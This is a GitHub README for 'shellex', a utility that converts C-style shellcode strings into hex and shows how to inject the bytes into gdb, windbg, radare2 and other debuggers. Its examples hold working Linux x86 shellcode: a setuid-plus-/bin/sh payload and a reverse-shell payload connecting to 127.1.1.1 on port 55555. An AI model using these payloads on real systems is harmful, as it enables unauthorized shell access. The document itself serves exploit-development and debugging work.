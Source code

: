 # shellex
**WARNING**: the ugliest code in the world

C-shellcode to hex converter. 

Handy tool for paste & execute shellcodes in gdb, windbg, radare2, ollydbg, x64dbg and immunity debugger.

Are you having problems converting C-shellcodes to HEX (maybe c-comments+ASCII mixed?) 

Here is shellex. If the shellcode can be compiled in a C compiler shellex can convert it.

Just execute shellex, paste the shellcode c-string and press ENTER. 

To end use Control+Z(Windows)/Control+D(Linux)

Converting c-shellcode-multi-line-hex+mixed_ascii (pay attention in the mixed part **\x68//sh\x68/bin\x89**):
```
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"
```

shellex output:
```
6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80
```

Now you can copy the output & paste it to Immunity Debugger, ollydbg, x64dbg, 010 hexadecimal editor etc.

Converting c-shellcode-multi-line-with-comments:
```
"\x68"
"\x7f\x01\x01\x01"  // <- IP:  127.1.1.1
"\x5e\x66\x68"
"\xd9\x03"          // <- Port: 55555
"\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02"
"\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79"
"\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a"
"\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
"\xeb\xce"
```

shellex output:
```
68 7F 01 01 01 5E 66 68 D9 03 5F 6A 66 58 99 6A 01 5B 52 53 6A 02 89 E1 CD 80 93 59 B0 3F CD 80 49 79 F9 B0 66 56 66 57 66 6A 02 89 E1 6A 10 51 53 89 E1 CD 80 B0 0B 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 EB CE
```

Do you need the shellex output as a new c-shellcode-string? just use -h parameter, example converting the shellex output:
```
./shellex -h 6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80

\x6A\x17\x58\x31\xDB\xCD\x80\x6A\x0B\x58\x99\x52\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x52\x53\x89\xE1\xCD\x80
```

## Installation

```
git clone https://github.com/David-Reguera-Garcia-Dreg/shellex.git
```

### For Windows:

binary: shellex\bins\shellex.exe

### For Linux

Deps:

```
sudo apt-get install tcc
```

binary: shellex/linuxbins/shellex

## Paste & Execute shellcode in ollydbg, x64dbg, immunity debugger

Just use my xshellex plugin:

https://github.com/David-Reguera-Garcia-Dreg/xshellex

## Paste & Execute shellcode in gdb 

* execute shellex 
* enter the shellcode:
```
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"
```
* press enter
* press Control+D
* convert the shellex output to C-Hex-String with shellex -h:
```
shellex -h 6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80
```
* write the C-Hex-String to a file as raw binary data with "echo":
```
echo -ne "\x6A\x17\x58\x31\xDB\xCD\x80\x6A\x0B\x58\x99\x52\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x52\x53\x89\xE1\xCD\x80" > /tmp/sc
```
* gdb /bin/ls
* starti

Write the binary file to the current instruction pointer:

for 32 bits:
```
restore /tmp/sc binary $eip
x/30b $eip
x/15i $eip
```

for 64 bits:
```
restore /tmp/sc binary $rip
x/30b $rip
x/15i $rip
```

Notes:

x/30b is the size in bytes of the shellcode, you can get the size with: 
```
wc -c /tmp/sc
```

x/15i is the number of instructions to display, you can get the correct number (maybe) with:
```
sudo apt-get install nasm
```

For 32 bits:
```
ndisasm -b32 /tmp/sc
ndisasm -b32 /tmp/sc | wc -l
```

For 64 bits:
```
ndisasm -b64 /tmp/sc
ndisasm -b64 /tmp/sc | wc -l
```

## Paste & Execute shellcode in windbg

* execute shellex 
* enter the shellcode:
```
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"
```
* press enter
* press Control+D
* convert the shellex output to raw binary data with certutil:
```
echo 6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80 > C:\Users\Dreg\sc.hex
certutil -f -decodeHex c:\Users\Dreg\sc.hex c:\Users\Dreg\sc
del C:\Users\Dreg\sc.hex
```

certutil output:
```
Input Length = 92
Output Length = 30
CertUtil: -decodehex command completed successfully.
```

The lenght of our shellcode is 30, then use L0n30 in windbg. 

Write the binary file to the current instruction pointer:

for 32 bits:
```
.readmem C:\Users\Dreg\sc @eip L0n30
```

for 64 bits:
```
.readmem C:\Users\Dreg\sc @rip L0n30
```

## Paste & Execute shellcode in radare2

* execute shellex 
* enter the shellcode:
```
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"
```
* press enter
* press Control+D
* convert the shellex output to C-Hex-String with shellex -h:
```
shellex -h 6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80
```
* write the C-Hex-String in radare2 using the "w" command:

For 32 bits:
```
w \x6A\x17\x58\x31\xDB\xCD\x80\x6A\x0B\x58\x99\x52\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x52\x53\x89\xE1\xCD\x80 @eip
```

For 64 bits:
```
w \x6A\x17\x58\x31\xDB\xCD\x80\x6A\x0B\x58\x99\x52\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x52\x53\x89\xE1\xCD\x80 @rip
```

Check if the shellcode is well-pasted, disassembling the bytes of instructions (the total size of shellcode).

Get the size of the shellcode in a terminal with:
```
echo -ne "\x6A\x17\x58\x31\xDB\xCD\x80\x6A\x0B\x58\x99\x52\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x52\x53\x89\xE1\xCD\x80" | wc -c
```

The output of last command is 30, Now use pD in radare2:

```
pD 30
```

## Compilation

For Windows just use Visual Studio 2013
* https://my.visualstudio.com/Downloads?q=visual%20studio%202013&wt.mc_id=o~msft~vscom~older-downloads
* https://go.microsoft.com/fwlink/?LinkId=532495&clcid=0x409

For Linux just: 
```
cd shellex/shellex
gcc -o shellex shellex.c
./shellex
```


